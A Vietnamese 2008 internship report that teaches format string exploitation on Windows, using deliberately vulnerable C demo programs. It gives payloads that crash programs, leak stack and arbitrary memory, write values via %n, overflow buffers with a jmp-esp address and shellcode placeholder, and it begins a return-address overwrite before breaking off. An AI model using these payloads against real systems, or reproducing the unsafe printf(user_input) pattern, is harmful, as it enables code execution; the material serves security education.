# Lỗi Format String trên Windows - Các phương pháp khai thác lỗi Format String

*Đây là nội dung báo cáo tôi đã thực hiện nghiên cứu trong quá trình thực tập tại Bkis*

Hà Nội - Tháng 10/2008
# **Contents**
[I.	Các hàm format string, cấu trúc, nguy cơ lỗi](#_toc212524028)

[A.	Nhắc lại về các hàm format string](#_toc212524029)

[B.	Cấu trúc các hàm format string](#_toc212524030)

[C.	Nguy cơ lỗi](#_toc212524031)

[II.	Các lỗi Format String](#_toc212524032)

[A.	Gây crash cho chương trình](#_toc212524033)

[B.	Xem nội dung stack](#_toc212524038)

[1.	Xem stack](#_toc212524039)

[2.	Xem bộ nhớ tại vị trí bất kỳ](#_toc212524040)

[C.	Ghi đè dữ liệu lên vùng nhớ bất kỳ](#_toc212524041)

[1.	Khác thác lỗi kiểu BoF](#_toc212524042)

[2.	Ghi đè dữ liệu lên vùng nhớ bất kỳ](#_toc212524043)

[D.	Các phương pháp khai thác](#_toc212524044)

[1.	Phương pháp ghi đè vào địa chỉ trả về](#_toc212524045)

[2.	Phương pháp ghi đè lên địa chỉ của RtlEnterCriticalSection trong cấu trúc PEB](#_toc212524046)

[3.	Ghi đè SEH địa chỉ trên heap chứa shellcode](#_toc212524047)


# I. <a name="_toc212524028"></a>**Các hàm format string, cấu trúc, nguy cơ lỗi:**
   ## A. <a name="_toc212524029"></a>**Nhắc lại về các hàm format string:**
- Nếu là người đã từng lập trình qua C, chắc chắn bạn sẽ dùng đến hàm **printf,** chữ **f** ở đây mang nghĩa là **Format** tức là hàm này cho phép in ra màn hình với một format xác định do người lập trình đưa vào.
- Ví dụ, trong trường hợp bạn muốn in ra một xâu có dạng:
  - “Tổng chi tiêu tháng này là **xxx** triệu VND”
    - Với xxx là số tiền thay đổi theo tháng, tức là không xác định khi lập trình.
    - Hàm printf sẽ cho phép bạn làm điều đó.
- Không chỉ có mỗi hàm printf có tác dụng này mà có hẳn 1 họ format string, danh sách phía dưới:


*Hình 1**
## B. <a name="_toc212524030"></a>**Cấu trúc các hàm format string:**
- Quay lại với ví dụ ở trên:
  - “Tổng chi tiêu tháng này là **xxx** triệu VND”
- Vậy thì muốn in ra xâu này phải làm thế nào? Trả lời luôn:
  - Trong xâu in ra màn hình phải có 1 tham số **mềm** thay cho chỗ xxx kia, trong trường hợp này thì tham số mềm đó phải là dùng cho 1 số decimal, cụ thể là **%d**.
  - Hàm cụ thể:
    - printf(“Tổng chi tiêu tháng này là %d triệu VND”,m\_int\_tien);
    - Trong đó **m\_int\_tien** là 1 biến kiểu int và chứa lượng tiền chi tiêu trong tháng.
- Sau đây là danh sách những cái tương tự như **%d** ở trên:

  

*Hình 2**

- **Chú ý:** 
  - %x cho in ra 1 số hexadecimal, nhưng số byte mà nó in ra được không cố định, có nghĩa là nếu nó được trỏ đến 1 số 2 byte thì %x tương đương với 2 byte trong xâu in ra (4 cột màn hình), tối đa sẽ là 1 số 4 byte(8 cột màn hình), để chắc ăn thì viết **%08x**, khi đó nó chắc chắn sẽ in ra 1 số 4byte.
  - *Tại sao lại nói cái trên làm gì?* %n là tham số cho phép in ra số lượng byte đã in ra trước đó, nếu số lượng byte mà nhập nhằng không xác định thì làm sao mà in ra số chính xác được J
  - *Bên cạnh đó, ta thấy %08x in ra 1 số 4 byte(8/2) thì chẳng lẽ %1000x sẽ  đọc trong bộ nhớ số 1000/2 byte à :-SS, làm sao mà có kiểu biến nào 1000 byte/2?* Không hẳn là như vậy, % 1000x sẽ cho ra 1 xâu với 1000 cột màn hình nhưng nó đọc trong bộ nhớ cũng chỉ là 4 byte mà thôi, tức là số 4byte đó sẽ được in trên 1000 cột màn hình.
  - Những tham số này sẽ rất quan trọng cho quá trình khai thác sau này, những khai thác ở dưới sẽ không nhắc lại những chú ý này nữa.
## C. <a name="_toc212524031"></a>**Nguy cơ lỗi**
- Hãy xem nếu hàm ở trên có dạng:
  - printf(“Tổng chi tiêu tháng %d là %d triệu VND”,m\_int\_thang,m\_int\_tien);
  - Soi vào stack xem thế nào:


*Hình 3**

- Trên là tình trạng của stack trước khi vào hàm printf, trong đó:
  - Đỉnh stack chứa địa chỉ của xâu format.
  - Ngay sau đấy sẽ các thành phần tương ứng với các tham số truyền vào tương ứng.
  - Nhìn sâu xuống 1 chút, ta thấy ngay sau 2 cái %d là vùng stack nào đó mà ta không biết nhưng có vẻ cũng quan trọng (return …)
  - Nếu là 3 cái **%d** thì thế nào nhỉ?


*Hình 4**

- Tất nhiên sẽ có thêm 1 ô nhớ hợp lệ được cấp cho %d mới này (đó là khi bạn sử dụng printf một cách chính thống)
- Chính thống tức là thế nào? ***Tức là có bao nhiêu %d ở xâu format thì có bấy nhiêu biết tương ứng ở phần sau.***
- Vậy ta thử không chính thống xem thế nào! Có nghĩa là sẽ dùng số tham số trong xâu format nhiều hơn số tham số đầu vào.
  - Trong trường hợp trên ta thử với hàm:
    - printf(“Tổng tháng %d là %d**%d%d** triệu VND”,m\_int\_thang,m\_int\_tien);
  - %d thứ 3,4 sẽ không được tương ứng với biến nào cả, build và chạy thử xem thế nào:



*Hình 5**

- Thật đáng ngạc nhiên! Chương trình vẫn chạy bình thường! Nhìn vào stack ta thấy 2 cái %d vẫn được trỏ vào 2 ô nhớ, nhưng 2 ô nhớ này chương trình không điều khiển được, tức là 2 ô nhớ “không hợp lệ”
- So sánh 2 ô nhớ được trỏ bởi 2 cái %d ở hình 5 với hình 3 và hình 4 ta thấy 
  - %d thứ nhất đã trỏ vào ***“RETURN to write2.00401243F from write2.00401310”***!
  - %d thứ 2 trỏ vào ***“write2.00402000”***
  - Write2 là tên chương trình.
- Thật tình cờ và thật bất ngờ, chương trình dịch C không hề kiểm số tham số tương đương của xâu format và đầu vào!
- Nhưng liệu đó có thành 1 lỗi không, chúng ta cùng xem xét ở phần sau.
- Trước tiên hãy xem qua 1 vài so sánh giữa Format String và buffer Overflow:


*Hình 6 – một vài so sánh giữa BoF và Format String*


*Hình 7- một vài lỗi đã được phát hiện*

- Nghe có vẻ nguy hiểm đấy nhỉ? Trong phần tiếp theo chúng ta sẽ tìm hiểu xem thực hư của vấn đề này thế nào!
# II. <a name="_toc212524032"></a>**Các lỗi Format String:**
   ## A. <a name="_toc212524033"></a>**Gây crash cho chương trình:**
- ### <a name="_toc212524034"></a>Việc một hệ thống bị crash là rất nguy hiểm, hãy tưởng tượng 1 máy chủ mail sử dụng MDeamon bị crash hay DSN server thì chuyện gì sẽ xảy ra :-?
- ### <a name="_toc212524035"></a>Như đã phân tích ở trên, khi số tham số đầu được yêu cầu nhiều hơn số tham số được cung cấp, các hàm format string vẫn hoạt động và truy vấn đến các vùng stack ở phía dưới, trong trường hợp xem chỉ xem các vùng đấy như số thì chương trình vẫn truy vấn và hoạt động bình thường, tuy nhiên nếu chương trình xem là địa chỉ (tham số %s) mà những vùng đó mà mang giá trị là 1 địa chỉ không xác định hoặc không thể truy nhập, lập tức chương trình sẽ bị crash!!!! 
0x41414141

**number  (%d)![ref2]**
	


**Address (%s)![ref2]**

	

**Ví Dụ1:** xét chương trình *Eg1.cpp*

```
#include <conio.h>
#include <windows.h>
#include <excpt.h>
void loi()
{
     char str[1000];
     gets(str);
     printf(str);
}
main()
{
      char a='a';
      while(a!='k')
      {
      printf("\nnhap:");                   
      loi();
      a=getch();
      }
      ExitProcess(1);
}
```
- Chương trình này cho phép nhập một xâu bất kỳ, sau đó dùng hàm printf để in ra màn hình xâu đó


*Hình 8**
- ### <a name="_toc212524036"></a>Với ví dụ này, sẽ rất tiện cho việc demo lỗi vì hàm printf trong chương trình không hề có tham số đầu vào nào.
- Thử nhập xâu “***%d%d”*** xem thế nào:
### 
*Hình 9**

- Như hình trên, %d thứ 2 trỏ vào ô nhớ mang giá trị 0x0000050, như vậy nó sẽ được mang giá trị là 0x50 (80).
- Thử thay cái %d thứ 2 thành %s xem thế nào nhỉ?



*Hình 10**

- Tất nhiên %s mới này sẽ trỏ đến ô chứa 0x0000050 và nó coi giá trị 0x50 đó là địa chỉ của 1 ô nhớ (chứa 1 xâu)
- 0x00000050 không thể là địa chỉ của một ô nhớ vì vậy chương trình sẽ bị crash!!!!!!


### 
### <a name="_toc212524037"></a>***Phát hiện lỗi format string như thế nào?*** Truyền tham số đầu vào gồm nhiều phần tử %s và ngồi chờ J


## B. <a name="_toc212524038"></a>**Xem nội dung stack**
### 1. <a name="_toc212524039"></a>**Xem stack:**
- Trở lại với *Eg1.cpp*, nhập đầu vào là một xâu có rất nhiều %08x (tất nhiên đừng để bị Bof), nhìn vào stack xem tình hình thế nào: 



*Hình 11**

- Đúng như ở trên đã nói, mỗi %08x sẽ được trỏ đến 1 ô nhớ 4 byte mà không cần biết ô nhớ đó có phải là do chương trình cấp phát cho hay không!


- Một xâu kiểu như  **00000004 00000050 00000000 0000000 78383025 …** sẽ được in ra, ghi chép lại và phân tích “1 chút” là bạn hoàn toàn có thể biết trong stack có những gì J


### 2. <a name="_toc212524040"></a>**Xem bộ nhớ tại vị trí bất kỳ:**
- Chúng ta quay trở lại với ví dụ *Eg1.cpp*, với đầu vào là **AAAA%x**:


*Hình 12**

- Cùng phân tích nào: ta thấy địa chỉ của xâu format đang nằm ở đỉnh stack và chính là **0x0244FB50**
- Thật thú vị! địa chỉ đó lại nằm ngay ở dưới đỉnh stack không xa, hãy nhìn vào ô nhớ có giá trị **0x41414141** (AAAA) ở phía trên, đó là điểm bắt đầu cho xâu format, tức là xâu mà mình có thể **chủ động** nhập vào.
- Hãy để ý, khoảng cách giữa ô nhớ được trỏ bởi tham số %08x và ô nhớ chứa 0x41414141 là 5 ô nhớ 4 byte.
- Vậy thì tiếp theo ta hãy cho đầu vào là AAAA%08x và **5 cái** %08x nữa:



*Hình 13**

- Thật tuyệt vời! tham số **%08x** thứ 6 đã trỏ đến ô nhớ chứa **0x41414141**
- Ô nhớ **0x41414141** là ô nhớ mà mình đã chủ động nhập vào
- Điều này chứng tỏ giá trị của tham số %08x này ta hoàn toàn có thể điều khiển.
- Bây giờ chúng ta sẽ thay tham số %08x thứ 6 thành %s. 
  - Tại sao lại phải thay như vậy? **%08x** có tác dụng in ra 1 số 4 byte ra màn hình, in ra màn hình 1 số mà ta đã biết giá trị rồi thì chẳng có ý nghĩa gì.
  - %s là tham số cho ta hiện ra xâu kí tự ở vùng địa chỉ mà nó trỏ tới.


*Hình 14**

- Trong trường hợp này địa chỉ mà %s trỏ đến là giá trị mà ta hoàn toàn có thể điều khiển được (**0x41414141**)
- Tuy nhiên ở đây, 0x41414141 không là địa chỉ của vùng nhớ nào cả nên sẽ không có xâu nào được hiện lên màn hình, mà thậm chí chương trình sẽ bị crash.
- Việc tiếp theo, chúng ta sẽ thay 0x41414141 thành 1 địa chỉ hợp lệ, ví dụ như địa chỉ **0x7FFDF050**
  - Hãy thử với: **\x50\xF0\xFD\x7F%x%x%x%x%x%s**
  - Thực ra, chương trình ***Eg1.cpp***  chỉ mang tính chất demo, đầu vào được nhập từ giao diện console, vì vậy chỉ nhập được các ký tự ASCII, không thể nhập các số hex.
  - Để có được các số hex như ở trên, bạn hãy edit trực tiếp trong khi debug trong Ollydebug.


*Hình 15**

- Như vậy ta có thể thấy tại địa chỉ 0x7FFDF050 hiện tại đang chứa xâu “***Hello Format string from BKIS***”
- Tất nhiên là nội dung này đã được edit từ trước để việc demo đẹp đẽ hơn :-P

- Tuy nhiên **1 vấn đề** xảy ra: nếu địa chỉ có dạng 0x**00**432123 (tức là có byte 00) thì sẽ thế nào, mà trên thực tế, ta thường chỉ quan tâm đến các địa chỉ có dạng như thế này thôi!
  - Nếu vẫn để địa chỉ ở trên đầu xâu format như ở trên thì xâu sẽ bị ngắt ngay tại mấy byte đầu!! Vì 0x00 là ký tự ngắt xâu.
  - Để giải quyết vấn đề này, chúng ta sẽ đặt địa chỉ xuống **cuối** xâu format.
- Vẫn là ví dụ *Eg1.cpp* với đầu vào là **%x%xAAAA**


*Hình 16**

- Ở đây, việc cần thiết là điều chỉnh làm sao cho tham số %x cuối cùng sẽ trỏ vào ô nhớ chứa 0x41414141 (đây là giá trị mà mình có thể điều khiển được)
- Quan sát, ta thấy khoảng cách giữa %x cuối cùng vào 0x41414141 đang là 5 ô nhớ 4 byte. **Tuy nhiên**, vấn đề không  dễ dàng giải quyết như ở phần trên, không đơn giản là chỉ cần thêm 5 tham số %x nữa là xong!
- Vì sao? 0x41414141 nằm ở cuối xâu vì vậy nếu thêm %x vào xâu tức là độ dài của xâu cũng tăng và 0x41414141 sẽ càng bị đẩy xa  khỏi đỉnh stack.
- Bây giờ ta thử thêm 5 tham số %x xem thế nào:

  

*Hình 17**

- Ta thấy, rõ ràng %x cuối cùng vẫn chưa trỏ đến ô nhớ 0x41414141 L
- Phương án giải quyết:
  - Cái **cần** đạt được của chúng ta lúc này là làm thế nào để tham số %x cuối cùng của chúng ta sẽ trỏ vào ô nhớ 0x41414141
  - Ta thấy, mỗi 1 tham số %x thêm vào sẽ làm cho độ dài của xâu format tăng thêm 2 byte (**\x78\x25**). Như thế đồng nghĩa với việc địa chỉ cần điều khiển (ô nhớ chứa 0x41414141) sẽ bị đẩy xa khỏi đỉnh stack **2 byte**!
  - Như vậy nếu 2 tham số %x được thêm 1 lúc thì ô 0x41414141 sẽ đẩy xa đỉnh stack một khoảng là 4 byte (tức là **1 ô nhớ** trong stack)
  - Bên cạnh đó, mỗi một %x thêm vào sẽ trỏ vào **1 ô nhớ** trong stack, như vậy nếu 2 %x được thêm thì sẽ có thêm 2 ô nhớ trong stack được trỏ. Như vậy có nghĩa là khoảng cách giữa tham số %x cuối cùng và ô nhớ 0x41414141 được rút ngắn 2 ô nhớ.
  - **Tóm lại**, kết hợp 2 lý luận trên thì mỗi khi thêm **2 tham số %x** vào xâu format thì ta sẽ **rút ngắn khoảng cách** giữa %x cuối cùng và ô nhớ 0x41414141 là **1 ô nhớ** trong stack. Nếu các lý luận trên đọc khó hiểu thì bạn **chỉ cần** nhớ câu tóm lại này là được.
  - **Áp dụng:** Trong trường hợp hiện tại, khoảng cách giữa %x cuối cùng và 0x41414141 là 5 ô nhớ, vậy cần rút ngắn 5 ô nhớ, theo kết luận ở trên ta sẽ cần thêm 5x2=10 tham số %x nữa là **ok,** như vậy xâu truyền vào của mình sẽ là “***%x%x”+ 10 cái “%x” + “AAAA***”


*Hình 18**

- Quá chính xác luôn! Tham số %x cuối cùng của chúng ta đã trỏ đến ô nhớ 0x41414141
- Công việc tiếp theo là thay %x cuối cùng thành %s và 0x41414141 (AAAA) thành địa chỉ ô nhớ cần đọc.



*Hình 19 - %s đã được trỏ đến vùng nhớ bất kỳ*

`	`

*Hình 20- Và đây là kết quả*

## C. <a name="_toc212524041"></a>**Ghi đè dữ liệu lên vùng nhớ bất kỳ:**
### 1. <a name="_toc212524042"></a>**Khác thác lỗi kiểu BoF:**
- Đôi khi, Format String lại xuất hiện một vài lỗi liên quan đến độ dài của buffer kiểu như Buffer Overflow, ví dụ như lỗi của Qualcomm Popper 2.53, đoạn code lỗi như sau:

```
{
char outbuf[512];
char buffer[512];
sprintf (buffer, "ERR Wrong command: %400s", user);
sprintf (outbuf, buffer);}
```

- sprint() là hàm cho phép tạo ra một xâu mới với định dạng xác định.
- Chuỗi ***user*** sẽ được cung cấp bởi người dùng và sẽ được thay vào vị trí của %400s trong xâu format, điều này làm ta liên tưởng đến bof nếu cho user dài ra quá 512 byte, và ngay câu lệnh thứ nhất, biến buffer đã có thể bị tràn và crash xảy ra? **Không!**
- Hãy để ý đến **%400s**, đoạn này có tác dụng chỉ dành cho user nhiều nhất 400 bytes thôi, khi đó thì biến buffer không thể tràn được vì nó có tận 512 bytes cơ!
- Xem xét tiếp lệnh tiếp theo: sau khi xâu buffer được tạo ra bằng cách ghép xâu user vào vị trí %400s trong **"ERR Wrong command: %400s"** thì câu lệnh thứ có tác dụng tương tự nhưng lại là tạo ra xâu ***outbuf***  từ xâu ***buffer***
- Hãy đoán xem điều gì sẽ xảy ra nếu buffer lúc này là **“%512s xxxxxxxxxxxxxxxxxxx” ?!** cũng như câu lệnh trên, sprintf sẽ để ra 512 byte dành cho (tham số rỗng) ở xâu outbuf, nhưng outbuf lại chỉ có 512 bytes, vậy thì **xxxx** nằm ở vùng ngoài buffer, tức là buffer đã bị over, người ta gọi là **buffer overflow**.
- Tóm lại, biến user sẽ được đưa vào dạng như sau:

  **“%497d\x3c\xd3\xff\xbf<nops><shellcode>”** trong đó, 497 là số đã được tính toán để đến được đến chỗ địa chỉ trả về của hàm, **\x3c\xd3\xff\xbf** là địa chỉ của jmp esp, còn đoạn sau là shellcode, y hệt như khai thác bof bình thường.

- Đoạn này sẽ không có ảnh minh họa nữa vì thiên về bof nhiều hơn, ai thích thực hành thì dùng tạm file **similarbof.cpp**

```
#include <stdio.h>
#include <string.h>
#include <conio.h>

main()
{
    char outbuf[512];
    char buffer[512];
    char user[512];
    gets(user);
    sprintf (buffer, "ERR Wrong command: %400s", user);
    sprintf (outbuf, buffer);
    getch();
}
```

### 2. <a name="_toc212524043"></a>**Ghi đè dữ liệu lên vùng nhớ bất kỳ:**
- Ở trên chúng ta mới chỉ thảo luận đến khả năng cho phép đọc dữ liệu từ vùng nhớ bất kỳ trong chương trình, tuy nhiên như thế là chưa đủ nếu muốn khai thác triệt để, chúng ta cần có thêm quyền ghi dữ liệu lên vùng nhớ bất  kỳ nữa.
- Nếu không nhớ thì bạn có thể quay lại phần đầu của tài liệu và để ý đến tham số **%n,** tham số này cho in ra 1 số mà giá trị của nó là số cột màn hình đã in ra trước đó, điều đó có nghĩa ta có thể thay đổi giá trị của biến tương ứng với tham số %n này.
- Để hiểu thêm về tham số này, chúng hãy thử đoạn code sau:

```
#include<stdio.h>
#include<conio.h>

main()
{
	int i,j,n;
	i=0x1234;
	j=0x56;
	printf("%100x%x%n",i,j,&n);
	printf("\n\rdong tren chiem so cot man  hinh la: %d",n);
	getch();
}
```
- Đây là kết quả:


- Số 102 có được là do %100x sẽ hiện ra màn hình 100 dòng dành cho giá trị của **i** + 2 dòng để hiện thị giá trị của **j** (j=0x56)
- Như vậy nếu ta điều khiển được địa chỉ mà %n trỏ đến thì ta hoàn toàn có thể ghi giá trị theo ý muốn lên địa chỉ đấy bằng cách thay giá trị của %100x bằng 1 số thích hợp.
- Xét 1 ví dụ khác, ví dụ này sẽ cho phép dùng hàm prinft với các số **hex**, thay vào việc xâu vào được nhập từ màn hình, xâu vào sẽ được lấy từ 1 file ở ngoài:

```
#include <stdio.h>
#include <string.h>
#include <conio.h>

main()
{
	FILE * pFile;
	long lSize;
	char buffer[10000];
	size_t result;

	pFile = fopen ("FileFS.txt","rb");
	if (pFile==NULL)
	{
		printf("can't open file FileFS.txt");
		return 0;
	}

	fseek (pFile , 0 , SEEK_END);
	lSize = ftell (pFile);
	rewind (pFile);
		
	result = fread (buffer,1,lSize,pFile);
			
	printf(buffer);
	getch();
}
```

- File *FileFS.txt* sẽ chứa nội dung cần in ra màn hình
- Thử với xâu ***AAAA%x%x***  xem stack thế nào cái đã:


*Hình 21**

- **Thực hành:** mục tiêu của chúng lúc này sẽ là ghi 1 giá trị bất kỳ lên vùng nhớ **7FFDF050**, chẳng hạn ghi giá trị 0xAF12, công việc cần thực hiện
  - Thứ nhất 0x41414141 sẽ được thay bằng 0x7FFDF050
  - Thứ 2 phải tính toán số tham số sao cho tham số %x cuối cùng (sau này sẽ thay bằng %n) trỏ đến ô nhớ 0x41414141
  - Thứ 3 điều chỉnh số lượng cột màn hình hiện lên để có số hợp lý (0xAF12)
- Tham số %x cuối cùng đang cách ô nhớ chứa 0x7FFDF050 khoảng là 8 ô nhớ 4 byte, vậy ta sẽ cần thêm 8 tham số %x nữa


*Hình 22**

- Ok, bây giờ chúng ta sẽ thay %x cuối cùng thành  %n và xem ô nhớ 0x7FFDF050 như thế nào:


*Hình 23**

- Ta thấy ô nhớ 0x7FFDF050 đã được mang giá trị là 0x16
- Tại sao lại có giá trị đấy, như đã nói đó sẽ là số cột màn hình đã được in
- Hãy nhìn vào hình 22 và đếm **4+1+2+8+1+1+1+1+1+2=22=0x16** (4 byte của 0x7FFDF050, ô nhớ có bao nhiêu chữ số có nghĩa thì chiếm bấy nhiêu cột)
- Chúng ta nhận thấy số cột màn hình mà tham số %x cho in ra không cố định, như vậy sẽ rất khó cho việc tính toán, vậy phải làm thế nào, câu trả lời là **%08x** sẽ làm được việc ổn định đó, nó sẽ luôn luôn in ra 8 cột trong màn hình.



*Hình 24**

- Và kết quả:


*Hình 25**

- ` `**0x4C= 76 = 8\*9 +4** (9 tham số %08x và 4 cột dành cho 0x7FFDF050)
- Bước tiếp theo là tính toán sao cho có giá trị hợp lý để ghi.
  - Chúng ta cần hiển thị giá trị 0xAF12 lên địa chi 0x7FFDF050, do cơ chế ghi của windows nên giá trị chính xác cần phải ghi vào 0x7FFDF050 sẽ là 0x12AF.
  - Như vậy 08 trong tham số %08x cuối cùng sẽ được thay bằng giá trị:

**0x12AF-(0x4C-0x08) = 0x126B = 4715**

- Vậy tham số %08x cuối cùng bây giờ sẽ là %4715x


*Hình 26**

`		`Và kết quả:



*Hình 27 – Done!*

- Cũng như phần đọc giá trị từ ô nhớ bất kỳ, ở phần này cũng gặp khó khăn khi muốn ghi lên vùng địa chỉ có dạng 0x00412312 tức là địa chỉ chứa giá trị null. Cách thức vượt qua cũng tương tự, tuy nhiên sẽ gặp khó khăn một chút trong khâu tính toán để ra được giá trị thích hợp. Ở phần này tôi sẽ dành cho các bạn tự làm, trong quá trình thực hiện sẽ có kinh nghiệm để tính toán thôi.

- Như vậy với lỗi format string, chúng ta đã có trong tay “công cụ” là ghi đè dữ liệu lên địa chỉ bất kỳ. Vậy làm sao để khai thác triệt để, tức là thực thi shellcode, ở phần tiếp theo chúng ta sẽ bàn về vấn đề này.
  ## D. <a name="_toc212524044"></a>**Các phương pháp khai thác**
- Đặt vấn đề:  Nhiệm vụ của phần này là làm thế nào để thực thi được shellcode. Trong “tay” chúng ta hiện nay đã có “công cụ” là khả năng ghi đè dữ liệu lên vùng địa chỉ bất kỳ (tất nhiên chỉ ở các vùng có quyền ghi). Vậy phải cần những gì để thực thi được shellcode:
  - Ta cần 1 lệnh hoặc một nhóm lệnh cho phép có nhiệm vụ cho chương trình nhảy vào shellcode

- Để tiện lợi hơn cho trình bày vấn đề, chúng ta sẽ thống nhất một chương trình và thực hiện khai thác trên chương trình đó, sau đây là đoạn code:

  **Cenaaa.cpp**

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <conio.h>
#include <windows.h>

DWORD CenException()
{
      puts("\r\nException....");
      ExitProcess(1);
      return 0;
}

void ham()                        // hàm chứa hàm printf lỗi
{
	FILE * pFile;
	long lSize;
	char buffer[10000];

	size_t result;

	pFile = fopen ("FileFS.txt","rb");
	if (pFile==NULL)
	{
		printf("can't open file FileFS.txt");
		return;
	}

	fseek (pFile , 0 , SEEK_END);
	lSize = ftell (pFile);
	rewind (pFile);
		
	result = fread (buffer,1,lSize,pFile);
	buffer[result]=’\0’;	
	
	__try{		
		printf(buffer);                           // Cấu trúc bắt lỗi
	} // __try
	__except(CenException()){
		ExitProcess(1);
	}
}

main()
{
	ham();
	getch();
}
```

- Chương trình này về cơ bản cũng tương tự như ví dụ *PrintFile.cpp* ở phần trên, tuy nhiên có một số cải tiến:
  - Hàm thực hiện printf được đặt trong một hàm riêng biệt của chương trình
  - Sử dụng cơ chế bắt exception (thực tế thì hầu như chương trình nào đáng để khai thác cũng dùng cơ chế này)
- Chương trình được build trên VC6 ở chế độ debug.
  ### 1. <a name="_toc212524045"></a>**Phương pháp ghi đè vào địa chỉ trả về:**
- Đây là phương pháp mà hầu như ai cũng sẽ nghĩ đến đầu tiên, bởi vì nó chỉ cần một thao tác đơn giản là ghi đè lên địa chỉ trả về của hàm hiện tại. Phương pháp này cũng đã được sử dụng trong phương pháp khai thác BoF
- Công việc lúc này sẽ là: ghi đè địa chỉ của shellcode lên ô nhớ chứa địa chỉ trả về (nằm trong stack)
- Một điều cần phải **lưu ý**: ghi đè vào ô nhớ trong stack điều này đồng nghĩa với việc phải ghi vào địa chỉ có chứa ký tự null, như vậy địa chỉ phải đưa xuống cuối.
- Cùng bắt đầu với xâu vào: ***%08x%08x%08xAAAA***



*Hình 28 – Tình hình trong stack*

`	`

*Hình 29 – Cùng lúc đó, trong call stack*



*Hình 30- Tại địa chỉ 0x0012FF30*

- Như vậy công việc của chúng ta lúc này sẽ là ghi đè địa chỉ của shellcode vào địa chỉ 0x0012FF30, nhưng shellcode ở đâu vậy :-??
  - Có 2 vị trí để đưa shellcode vào, đó là đầu xâu hoặc cuối xâu format.
  - Đưa vào cuối xâu sẽ cho chúng ta dễ dàng hơn trong việc tính toán số cột đã in ra màn hình và dễ dàng thay shellcode hơn nhưng sẽ có nhược điểm là sẽ không được vào bộ nhớ nếu trước đó có kí tự null.
  - Đưa vào đầu xâu thì ngược lại
- Trong trường hợp của chương trình demo này chúng ta sẽ dùng cách đưa shellcode vào cuối xâu format do chương trình lấy vào buffer bằng cách đọc từ file nên sẽ không bị ảnh hưởng của ký tự null. Chỗ nói về ký tự null này nói hơi khó hiểu nhưng bạn sẽ không cần hiểu nhiều đâu J sau này khi làm cụ thể sẽ hiểu, chỉ cần biết trong trường hợp chương trình demo này chúng ta sẽ làm theo cách đưa shellcode vào cuối xâu format.
- Công việc tiếp theo chúng ta sẽ làm sao cho tham số %x cuối cùng (chính là %n sẽ thay vào sau này) sẽ trỏ vào vùng chúng ta có thể điều khiển được.

  

*Hình 31**

- **Tip:** ta sẽ truyền các tham số %08x cho đầy vào vùng nhớ mà nội dung không ổn định rồi sau đó mới dùng đến %x, ví dụ như trường hợp trên, chúng ta sẽ cho %08x đến tận địa chỉ ***0x0012D7F8*** rồi sau đó mới sử dụng đến %x để rút ngắn khoảng cách với ô nhớ 0x41414141. Mục đích là gì? Vùng nhớ có nội dung không ổn định, ta không kiểm soát được giá trị, như vậy số cột in ra màn hình cũng sẽ không kiểm soát được, như vậy ta truyền vào %08x sẽ là hợp lý nhất, nhằm tăng tính ổn định cho mã khai thác.
- Theo như hình 31 thì ta sẽ thêm 17 tham số %08x nữa rồi tính tiếp, cả thảy là 20 tham số %08x

  

*Hình 32 – Loại bỏ vùng nhớ không kiểm soát được*


*Hình 33 – Khoảng cách giữa %08x cuối cùng và 0x41414141*

- Theo như hình 33, ta thấy khoảng cách %08x và 0x41414141 là 21 ô nhớ, như vậy ta cần thêm là 21x2=42 tham số %x nữa
